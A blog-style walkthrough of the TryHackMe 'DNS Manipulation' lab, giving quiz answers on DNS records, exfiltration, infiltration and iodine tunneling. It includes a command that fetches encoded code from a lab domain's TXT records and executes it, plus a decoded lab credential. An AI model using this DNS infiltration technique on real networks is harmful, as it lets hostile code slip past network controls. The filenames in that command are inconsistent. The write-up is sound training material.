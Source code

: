 ```yaml
---
title: "THM | DNS Manipulation"
date: 2022-04-17
type: "post"
url : "/write-ups/dnsmanipulation/"
showtableOfContents: true
---
```


## Room

https://tryhackme.com/room/dnsmanipulation

## Task 1: Introduction

*No answer needed*

## Task 2:  Installation

*No answer needed*

## Task 3: [Setup] Custom Public DNS Server

*No answer needed*

## Task 4: What is DNS? 

#### Question 1: If you were on Windows, what command could you use to query a txt record for "youtube.com"?

*~ nslookup -type=txt youtube.com*

#### Question 2: If you were on Linux, what command could you use to query a txt record for 'facebook.com'?

*~ dig facebook.com TXT*

#### Question 3: AAAA stores what type of IP Address along with the hostname?

*~ IPv6*

#### Question 4: Maximum characters for a DNS TXT Record is 256. (Yay/Nay)

*~ Nay*

#### Question 5: What DNS Record provides a domain name in reverse-lookup? (Research)

*~ PTR*

#### Question 6: What would the reverse-lookup be for the following IPv4 Address? (192.168.203.2) (Research)

*~ 2.203.168.192.in-addr.arpa*

```bash
nslookup 192.168.203.2
```

![source](/img/write-ups/2022/dnsmanipulation/2022.png

## Task 5: What is DNS Exfiltration? 

#### Question 1: What is the maximum length of a DNS name? (Research) (Length includes dots!)

*~ 253*

## Task 6: DNS Exfiltration - Demo

*No answer needed*

## Task 7: DNS Exfiltration - Practice

```bash
cd ~/challenges/exfiltration/orderlist/
python3 ~/dns-exfil-infil/packetyGrabber.py order.pcap
cat order.txt
```

![source](/img/write-ups/2022/dnsmanipulation/2022_1.png)

![source](/img/write-ups/2022/dnsmanipulation/2022_2.png)

#### Question 1: What is the Transaction name? (Type it as you see it)

*~ Network Equip.*

#### Question 2: How much was the Firewall? (Without the $)

*~ 2500*

#### Question 3: Which file contain suspicious DNS queries? 

*~ cap3.pcap*

#### Question 4: Enter the plain-text after you have decoded the data using packetyGrabber.py found in ~/dns-exfil-infil/ folder.

*~ administrator:s3cre7P@ssword*

```bash
cd ../identify/
python3 ~/dns-exfil-infil/packetyGrabber.py cap3.pcap
cat cap.txt
```

![source](/img/write-ups/2022/dnsmanipulation/2022_3.png)

## Task 8: What is DNS Infiltration?

#### Question 1: What type of DNS Record is usually used to infiltrate data into a network?

*~ txt*

## Task 9: DNS Infiltration - Demo

*No answer needed*

## Task 10: DNS Infiltration - Practice

*~ 4.4.0-186-generic*

```bash
nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \* -f2 > .mail.python3
python3 ~/dns-exfil-infil/packetySimple.py 
python3 .mal.py
```

![source](/img/write-ups/2022/dnsmanipulation/2022_4.png)

## Task 11: DNS Tunneling

#### Question 1: What program was used to Tunnel HTTP over DNS?

*~ iodine*

## Task 12: The End

*No answer needed*

that's it ✌🏽

-------------------------------------------------------------
{{< rawhtml >}} 
 
{{< /rawhtml >}}